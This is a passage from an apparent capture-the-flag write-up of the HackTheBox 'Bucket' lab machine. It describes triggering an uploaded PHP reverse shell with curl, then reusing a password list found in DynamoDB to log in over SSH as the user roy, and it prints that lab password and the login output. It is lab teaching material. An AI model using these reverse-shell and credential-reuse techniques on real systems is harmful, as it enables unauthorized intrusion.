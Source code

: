 - **Note: notice the machine is cleaning itself every 30 seconds, so need faster.**

I tried to access my PHP file at http://bucket.htb/php-reverse-shell.php using curl to speed up the process.  Finally,  I got the reverse shell and start the enumeration again

![img](./img/13.png)

It was found that the user flag was saved at Roy's home directory (/home/roy) which cannot be accessed by this "www" account. Now, the target is the Roy account. 

![img](./img/14.png)

![img](./img/15.png)

There was a password list found above during enumerating the DynamoDB, tried to use those password to access the server via ssh. Finally, I got the password of Roy is **"n2vM-<\_K_Q:.Aa2"** 

```
root@kclai:~/Documents/ctf/htb/linux/18-HTB-Bucket/exploit# ssh roy@bucket.htb
roy@bucket.htb's password: 
Permission denied, please try again.
roy@bucket.htb's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-48-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 26 Dec 2020 05:16:15 PM UTC

  System load:                      0.03
  Usage of /:                       40.0% of 19.56GB
  Memory usage:                     20%
  Swap usage:                       0%
  Processes:                        189
  Users logged in:                  0
  IPv4 address for br-bee97070fb20: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for ens160:          10.10.10.212
```